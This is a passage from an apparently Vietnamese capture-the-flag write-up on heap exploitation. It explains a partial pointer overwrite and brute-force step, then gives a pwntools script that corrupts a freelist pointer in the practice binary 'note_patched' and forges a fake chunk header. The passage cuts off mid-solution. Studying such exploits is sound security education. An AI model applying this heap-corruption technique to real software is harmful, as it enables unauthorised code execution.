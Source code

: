 ![After_overwrite_2bytes](images/After_overwrite_2bytes.png)

Ta đã ghi đè thành công. Bây giờ là lúc ta sẽ brute force cho tới khi việc tạo 2 junk có kích thước 0x50 (như trên) không gặp lỗi (tức là địa chỉ heap hợp lệ sau khi overwrite forward pointer). Giả sử ta tạo junk thành công, payload ta cần ghi vào sẽ là khởi tạo của hai chunk (vì nếu chỉ ghi một chunk ngay sau chunk 0 thì khi free chunk 0 sẽ báo lỗi, có thể do không tìm thấy kích thước wild chunk)

Code sẽ được chỉnh lại như sau bao gồm cả bước 1 tới hiện tại:

```
while True:
    p = process('./note_patched')

    # Create 3 junks, the junk index=1 make sure there is not a heap consolidation
    # If input size is too small, our future payload may not be fit
    # If the address has null byte, strlen() will also end at null byte
    Add(0, 0x50, b'00000000')
    Add(1, 0x50, b'11111111')
    Add(2, 0x50, b'22222222')

    Delete(0)
    Delete(2)

    Edit(2, b'\x90')

    Add(3, 0x50, b'33333333')
    payload = p64(0) + p64(0x421)
    Add(4, 0x50, payload)

    Delete(2)
    Delete(1)

    Edit(1, p16(0x86b0))

```